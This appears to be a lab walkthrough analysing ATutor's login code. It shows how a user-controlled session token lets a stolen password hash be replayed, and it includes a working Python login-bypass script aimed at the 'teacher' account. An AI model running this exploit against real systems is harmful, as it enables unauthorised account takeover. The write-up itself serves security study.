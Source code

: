 ## Analyzing The Authentication Mechanism
Now, that we can exfiltrate data from the database, we can use our script to exfiltrate user password hashes and crack them to get clear text passwords.
However, we need to find a more convinient way to bypass the authentication mechanism to get authenticated to the web application.

We can start off buy capturing a login request from the atutor web application:

![](../../03.%20Screenshots/t1-ss28.png)

First thing that we notice is, ne of the parameters passed to the server for authentication is _form_password_hidden_, which appears to hold the password hash.
This supports the assumption that there's no clear text password and only a password hash.

The values do not match, to the hashed value in the database, meaning further processing of the user-controlled data is taking place prior to authentication.
In order to understand what's going on, we can move to login.php and understand what's going on.

![](../../03.%20Screenshots/t1-ss29.png)

The file points us to login_functions.inc.php
We head to the file and start to analyze it.

One thing that catches our eye is following:

![](../../03.%20Screenshots/t1-ss30.png)

If the POST token variable is set, then then it is used to setr the SESSION token variable.
Session tokens are always an interesting item to keep track of as they are used in unexpected ways at times.

Analyzing further:

![](../../03.%20Screenshots/t1-ss31.png)

We see that if we're not using coookie based authentication, the code falls throught the _else if_ branch, where it has to variables that are user controlled i.e. $this_password and $this_login. We can cross-check this by analyizing our previously burp captured request.

Next, in the code we come closer to the main login function, we arrive at the point where the code builds the sql query.

![](../../03.%20Screenshots/t1-ss32.png)

We see that the addslashes function is in place(even though it is not working as we discussed in the previous section).
But this time, the queryDB function has been used correctly, thus an sql injection will not be possible.

Reading the code further, we see the main login query being formed as follows:
```php
} else {
	$row = queryDB("SELECT member_id, login, first_name, second_name, last_name, preferences, language, status, password AS pass, last_login FROM %smembers WHERE (login='%s' OR email='%s') AND SHA1(CONCAT(password, '%s'))='%s'", array(TABLE_PREFIX, $this_login, $this_login, $_SESSION['token'], $this_password), TRUE);
		}

//Breaking down the main parts of the code, it looks like so:

...AND SHA1(CONCAT(password, $_SESSION['token']))=$this_password;
```

We know that, we can control the session token. And also, $this_password variable is controlled by us.
The only unknown parameter, is password, which we can extract from the database from the previous vulnerability.

If this query is satisfied, then we fall to the next part of the code where the authentication happens and we're logged in:

![](../../03.%20Screenshots/t1-ss33.png)

## Exploiting The Authentication Mechanism
With a few updates in our script we now have our hands on the login hash for the teacher user.

Now, we need to calculate how the POST form_password_hidden variable is being set.
This can be easily calculated by visiting the following files:
```path
ATutor/themes/simplified_desktop/login.tmpl.php
ATutor/themes/simplified_desktop/registration.tmpl.php
```

The code that encrpyts the password is following:
```php
function encrypt_password() {
        document.form.form_password_hidden.value = hex_sha1(hex_sha1(document.form.form_password.value) + "<?php echo $_SESSION['token']; ?>");
        document.form.form_password.value = "";
        return true;

```

To recreate this we can simply create a python function that encrypts our hash with the following code:

```python
import sys, hashlib, requests

def gen_hash(passwd, token):
	m = hashlib.sha1()
	m.update(passwd + token)
	return m.hexdigest()

def we_can_login_with_a_hash():
    target = "http://%s/ATutor/login.php" % sys.argv[1]
    token = "hax"
    hashed = gen_hash(sys.argv[2], token)
    d = {
        "form_password_hidden" : hashed,
        "form_login": "teacher",
        "submit": "Login",
        "token" : token
    }
    s = requests.Session()
    r = s.post(target, data=d)
    res = r.text
    if "Create Course: My Start Page" in res or "My Courses: My Start Page" in res:
        return True
    return False

def main():
    if len(sys.argv) != 3:
        print "(+) usage: %s <target> <hash>" % sys.argv[0]
        print "(+) eg: %s 192.168.121.103 56b11a0603c7b7b8b4f06918e1bb5378ccd481cc" % sys.argv[0]
        sys.exit(-1)
    if we_can_login_with_a_hash():
        print "(+) success!"
    else:
        print "(-) failure!"

if __name__ == "__main__":
    main()

```

Running the script we get a successful login:

![](../../03.%20Screenshots/t1-ss34.png)